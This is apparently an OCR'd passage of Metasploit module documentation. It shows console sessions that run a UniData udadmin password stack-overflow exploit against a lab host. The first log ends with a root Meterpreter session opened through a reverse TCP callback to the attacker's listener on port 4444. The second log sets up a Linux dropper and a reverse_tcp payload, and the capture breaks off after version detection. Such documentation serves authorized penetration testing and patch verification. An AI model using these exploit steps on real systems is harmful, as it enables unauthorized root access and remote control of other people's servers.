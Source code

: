 ```
[*] 10.0.0.198:31438 - Using the version number from UNIDATA_VERSION for targeting: 8.2.4
[*] 10.0.0.198:31438 - Connecting to UniRPC endpoint udadmin
[*] 10.0.0.198:31438 - Authenticating to RPC service as iLlQgwIwNzxAxg with a stack-overflowing password
[*] 10.0.0.198:31438 - Payload sent
[*] Sending stage (24772 bytes) to 10.0.0.198
[*] Meterpreter session 2 opened (10.0.0.227:4444 -> 10.0.0.198:54568) at 2023-04-11 09:46:03 -0700

meterpreter > getuid
Server username: root
```

### Version 8.2.4 with auto-detection + unix dropper payload

```
msf6 > use exploit/linux/misc/unidata_udadmin_password_stack_overflow
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp

msf6 exploit(linux/misc/unidata_udadmin_password_stack_overflow) > show targets

Exploit targets:
=================

    Id  Name
    --  ----
=>  0   Unix Command
    1   Linux Dropper


msf6 exploit(linux/misc/unidata_udadmin_password_stack_overflow) > set TARGET 1
TARGET => 1

msf6 exploit(linux/misc/unidata_udadmin_password_stack_overflow) > set PAYLOAD linux/x64/meterpreter/reverse_tcp
PAYLOAD => linux/x64/meterpreter/reverse_tcp

msf6 exploit(linux/misc/unidata_udadmin_password_stack_overflow) > set LHOST ens160
LHOST => ens160

msf6 exploit(linux/misc/unidata_udadmin_password_stack_overflow) > set RHOST 10.0.0.198
RHOST => 10.0.0.198

msf6 exploit(linux/misc/unidata_udadmin_password_stack_overflow) > set VERBOSE true
VERBOSE => true

msf6 exploit(linux/misc/unidata_udadmin_password_stack_overflow) > exploit

[*] Started reverse TCP handler on 10.0.0.227:4444 
[*] 10.0.0.198:31438 - Running automatic check ("set AutoCheck false" to disable)
[*] 10.0.0.198:31438 - Trying to get version number from service defcs...
[*] 10.0.0.198:31438 - Detected UniRPC version 8.2.4 is running
[!] 10.0.0.198:31438 - The service is running, but could not be validated.
[*] 10.0.0.198:31438 - Using the version number from earlier for targeting: 8.2.4
```